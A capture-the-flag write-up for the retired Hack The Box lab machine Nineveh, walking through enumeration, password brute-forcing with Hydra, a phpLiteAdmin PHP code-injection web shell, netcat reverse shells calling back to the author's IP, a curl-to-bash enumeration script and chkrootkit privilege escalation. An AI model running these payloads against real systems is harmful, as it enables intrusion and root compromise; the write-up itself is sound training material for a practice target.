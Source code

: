# Nineveh

This is the write-up for the box Nineveh that got retired at the 16th December 2017.
My IP address was 10.10.14.15 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.43    nineveh.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/nineveh.nmap 10.10.10.43
```

```markdown
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
```

The SSL certificate exposes the hostname _nineveh.htb_ and a potential username _admin@nineveh.htb_.

## Checking HTTP (Port 80)

On the web page there is a default "It works!" Apache page with no additional information.
Lets look for hidden paths with **Gobuster**:
```markdown
gobuster -u http://10.10.10.43/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It outputs _/department_ path which forwards to _/department/login.php_ with a login form.

![Department login page](https://kyuu-ji.github.io/htb-write-up/nineveh/nineveh_http-1.png)

Lets try to brute-force the credentials with **Hydra**:
```markdown
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64
```

After finishing, it found the password for the user _admin_:
> 1q2w3e4r5t

When login in with the credentials, the web page shows an _"Under Construction!"_ image.
The menu _Notes_ shows the following information:
```markdown
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois
```

The potential username _amrois_ is disclosed. When looking at the URL of the _Notes_ menu, it looks like a file path:
```markdown
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt
```

After playing around with it, it becomes clear that this page looks for the string _ninevehNotes_ and everything without _.txt_ results in a PHP error, which means we need to create a PHP file somehow to get code execution.

## Checking HTTPS (Port 443)

On the HTTPS web page there is an image with no additional information.
Lets look for hidden paths with **Gobuster**:
```markdown
gobuster -u https://10.10.10.43/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
```

It outputs _/db_ path which wants a password for **phpLiteAdmin v1.9** and _/secure_notes_ path which displays an image without additional information.

![phpLiteAdmin login page](https://kyuu-ji.github.io/htb-write-up/nineveh/nineveh_https-1.png)

Lets try to brute-force the credentials with **Hydra**:
```markdown
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect" -t 64
```

After finishing, it found a valid password:
> password123

### Exploiting the database

Lets look for vulnerabilities in **phpLiteAdmin**:
```markdown
searchsploit phpliteadmin
```

The result called _PHPLiteAdmin 1.9.3 - Remote PHP Code Injection_ is a vulnerability that allows to put PHP code in a database, rename that database with a PHP extension and then execute the code.

Create new database called _ninevehNotes_:

![phpLiteAdmin create database](https://kyuu-ji.github.io/htb-write-up/nineveh/nineveh_https-2.png)

Create table with PHP command:
```markdown
<?php echo system($\_REQUEST["cmd"]); ?>
```

![phpLiteAdmin create table](https://kyuu-ji.github.io/htb-write-up/nineveh/nineveh_https-3.png)

Rename the database so it has a PHP extension:

![phpLiteAdmin rename database](https://kyuu-ji.github.io/htb-write-up/nineveh/nineveh_https-4.png)

Now we can browse back to the HTTP page to replace _ninevehNotes.txt_ to _ninevehNotes.php_ and try to execute a `whoami` command.
```markdown
http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=whoami
```

This works and displays the username _www-data_ which means we got code execution.
Now lets start a reverse shell:
```markdown
/department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.15+9001+>/tmp/f
```

After sending this request, the listener on my IP and port 9001 starts a session on the box as _www-data_.

## Privilege Escalation

To get an attack surface on the box we execute any **Linux Enumeration script**.
```markdown
curl 10.10.14.15 /LinEnum.sh| bash
```

Analyzing the output, the following information is interesting:
- Localhost listens on port 22 (SSH)
- Root path has a non-default folder called _/report_ that belongs to the user _amrois_

### Privilege Escalation to user

The path _/secure_notes_ on the web page with the _nineveh.png_ image is there for a reason.
When downloading it and analyzing it with `binwalk` it turns out that a **gzip** file is hidden inside of it. Lets extract everything out of the image:
```markdown
binwalk -Me nineveh.png
```

In the extracted tar file, there is a **RSA Public key (nineveh.pub)** and a **RSA Private key (nineveh.priv)**.
The public key is for the user _amrois_ so lets try to SSH into the box:
```markdown
chmod 600 nineveh.priv

ssh -i nineveh.priv amrois@nineveh.htb
```

It returns nothing because port 22 is closed as the initial scan showed us, but on the local enumeration it showed that SSH listens on localhost.
Looking at the services, there is a service called **knockd** that is a **Port Knocking** service.
The configuration file for this is in _/etc/knockd.conf_ that looks like this:
```markdown
[options]
 logfile = /var/log/knockd.log
 interface = ens33

[openSSH]
 sequence = 571, 290, 911
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
```

It tells us, that knocking on port 571, 290, 911 allows access to port 22. A port knock works by sending a TCP packet to the ports.
```markdown
for i in 571 290 911; do nmap -Pn -p $i --host-timeout 201 --max-retries 0 10.10.10.43; done
```

Now checking for port 22 on the box with Nmap, it displays that it is open:
```markdown
nmap -p 22 10.10.10.43
```

```markdown
PORT   STATE SERVICE
22/tcp open  ssh
```

Access to SSH with the private key works now and we get in as _amrois_:
```markdown
ssh -i nineveh.priv amrois@10.10.10.43
```

### Privilege Escalation to root

In the _/report_ path there are several .txt reports that are created with one minute difference which means there is a probably a cronjob running that is doing this.

Lets look at the processes with **Pspy**:
```markdown
wget http://10.10.14.15/pspy

chmod +x pspy

./pspy
```

Every minute the box runs the `/usr/bin/chkrootkit` program.
The reports found in the _/report_ folder hold the content of the **chkrootkit** program.

When looking for vulnerabilities in this program, there is a **Privilege Escalation** for this tool:
```markdown
searchsploit chkrootkit

# Output
Chkrootkit 0.49 - Local Privilege Escalation
```

For this vulnerability it is required to create _/tmp/update_ so **chkrootkit** automatically executes it.
The file will include the code to return a reverse shell:
```markdown
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.14.15 9002 >/tmp/g
```

After a minute, the listener on my IP and port 9002 starts a reverse shell as root!
